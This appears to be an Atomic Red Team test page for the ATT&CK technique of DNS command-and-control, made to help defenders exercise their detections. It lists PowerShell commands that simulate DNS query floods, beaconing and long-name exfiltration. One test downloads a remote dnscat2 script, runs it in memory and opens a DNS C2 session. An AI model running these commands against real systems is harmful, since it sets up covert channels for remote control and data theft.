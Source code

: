 # T1071.004 - Application Layer Protocol: DNS
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1071/004)
<blockquote>Adversaries may communicate using the Domain Name System (DNS) application layer protocol to avoid detection/network filtering by blending in with existing traffic. Commands to the remote system, and often the results of those commands, will be embedded within the protocol traffic between the client and server. 

The DNS protocol serves an administrative function in computer networking and thus may be very common in environments. DNS traffic may also be allowed even before network authentication is completed. DNS packets contain many fields and headers in which data can be concealed. Often known as DNS tunneling, adversaries may abuse DNS to communicate with systems under their control within a victim network while also mimicking normal, expected traffic.(Citation: PAN DNS Tunneling)(Citation: Medium DnsTunneling) </blockquote>

## Atomic Tests

- [Atomic Test #1 - DNS Large Query Volume](#atomic-test-1---dns-large-query-volume)

- [Atomic Test #2 - DNS Regular Beaconing](#atomic-test-2---dns-regular-beaconing)

- [Atomic Test #3 - DNS Long Domain Query](#atomic-test-3---dns-long-domain-query)

- [Atomic Test #4 - DNS C2](#atomic-test-4---dns-c2)


<br/>

## Atomic Test #1 - DNS Large Query Volume
This test simulates an infected host sending a large volume of DNS queries to a command and control server.
The intent of this test is to trigger threshold based detection on the number of DNS queries either from a single source system or to a single targe domain.
A custom domain and sub-domain will need to be passed as input parameters for this test to work. Upon execution, DNS information about the domain will be displayed for each callout.

**Supported Platforms:** Windows


**auto_generated_guid:** 1700f5d6-5a44-487b-84de-bc66f507b0a6





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| query_type | DNS query type | string | TXT|
| subdomain | Subdomain prepended to the domain name | string | atomicredteam|
| query_volume | Number of DNS queries to send | integer | 1000|
| domain | Default domain to simulate against | string | 127.0.0.1.xip.io|


#### Attack Commands: Run with `powershell`! 


```powershell
for($i=0; $i -le #{query_volume}; $i++) { Resolve-DnsName -type "#{query_type}" "#{subdomain}.$(Get-Random -Minimum 1 -Maximum 999999).#{domain}" -QuickTimeout}
```






<br/>
<br/>

## Atomic Test #2 - DNS Regular Beaconing
This test simulates an infected host beaconing via DNS queries to a command and control server at regular intervals over time.
This behaviour is typical of implants either in an idle state waiting for instructions or configured to use a low query volume over time to evade threshold based detection.
A custom domain and sub-domain will need to be passed as input parameters for this test to work. Upon execution, DNS information about the domain will be displayed for each callout.

**Supported Platforms:** Windows


**auto_generated_guid:** 3efc144e-1af8-46bb-8ca2-1376bb6db8b6





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| runtime | Time in minutes to run the simulation | integer | 30|
| domain | Default domain to simulate against | string | 127.0.0.1.xip.io|
| subdomain | Subdomain prepended to the domain name | string | atomicredteam|
| query_type | DNS query type | string | TXT|
| c2_interval | Seconds between C2 requests to the command and control server | integer | 30|
| c2_jitter | Percentage of jitter to add to the C2 interval to create variance in the times between C2 requests | integer | 20|


#### Attack Commands: Run with `powershell`! 


```powershell
Set-Location PathToAtomicsFolder
.\T1071.004\src\T1071-dns-beacon.ps1 -Domain #{domain} -Subdomain #{subdomain} -QueryType #{query_type} -C2Interval #{c2_interval} -C2Jitter #{c2_jitter} -RunTime #{runtime}
```






<br/>
<br/>

## Atomic Test #3 - DNS Long Domain Query
This test simulates an infected host returning data to a command and control server using long domain names.
The simulation involves sending DNS queries that gradually increase in length until reaching the maximum length. The intent is to test the effectiveness of detection of DNS queries for long domain names over a set threshold.
 Upon execution, DNS information about the domain will be displayed for each callout.

**Supported Platforms:** Windows


**auto_generated_guid:** fef31710-223a-40ee-8462-a396d6b66978





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| query_type | DNS query type | string | TXT|
| subdomain | Subdomain prepended to the domain name (should be 63 characters to test maximum length) | string | atomicredteamatomicredteamatomicredteamatomicredteamatomicredte|
| domain | Default domain to simulate against | string | 127.0.0.1.xip.io|


#### Attack Commands: Run with `powershell`! 


```powershell
Set-Location PathToAtomicsFolder
.\T1071.004\src\T1071-dns-domain-length.ps1 -Domain #{domain} -Subdomain #{subdomain} -QueryType #{query_type}
```






<br/>
<br/>

## Atomic Test #4 - DNS C2
This will attempt to start a C2 session using the DNS protocol. You will need to have a listener set up and create DNS records prior to executing this command.
The following blogs have more information.

https://github.com/iagox86/dnscat2

https://github.com/lukebaggett/dnscat2-powershell

**Supported Platforms:** Windows


**auto_generated_guid:** e7bf9802-2e78-4db9-93b5-181b7bcd37d7





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| domain | Domain Name configured to use DNS Server where your C2 listener is running | string | example.com|
| server_ip | IP address of DNS server where your C2 listener is running | string | 127.0.0.1|


#### Attack Commands: Run with `powershell`! 


```powershell
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/lukebaggett/dnscat2-powershell/45836819b2339f0bb64eaf294f8cc783635e00c6/dnscat2.ps1')
Start-Dnscat2 -Domain #{domain} -DNSServer #{server_ip}
```






<br/>
